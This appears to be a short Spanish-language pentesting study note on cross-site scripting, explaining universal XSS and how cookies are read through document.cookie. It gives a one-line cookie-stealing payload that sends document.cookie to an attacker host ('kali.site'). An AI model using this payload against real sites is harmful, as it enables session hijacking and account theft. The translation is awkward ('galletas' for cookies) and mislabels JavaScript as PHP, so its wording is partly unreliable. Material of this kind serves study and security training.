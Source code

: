 * Aka UXSS
* no aprovecha las fallas contra las aplicaciones web, sino el navegador, sus extensiones o sus plugins.

## XSS Attacks

### Cookie Gathering

* Las principales técnicas para realizar un seguimiento de la sesión de usuario se utilizan cookies HTTP.
* A veces estas cookies contienen información como nombre de usuario, contraseña y otra información relacionada con la aplicación.

3 steps:

```php
- Script Injection
- Cookie Recording
- Logging
```

### Script Injection

Inyectar la carga útil maliciosa que enviará las galletas robadas a nuestro CGI controlado Acceso a las Cookies:

```php
var accessibleCookies = document.cookie;
```

AccesibleCookies es una cadena que contiene una lista de galletas separadas por pares de punto y coma en pares de key=value. El resultado contiene cookies sin el atributo HTTPOnly. En las conexiones HTTP, solo las cookies sin el conjunto de atributos SECURE están contenidas en el resultado.

Robar galletas Para robar cookies, tenemos que enviar el contenido de document.cookie a algo que podamos controlar, utilizando un sencillo script como:

```php
new Image().src="http://kali.site/C.php?cc="+escape(document.cookie);
```

![](<../../.gitbook/assets/image (11).png>)

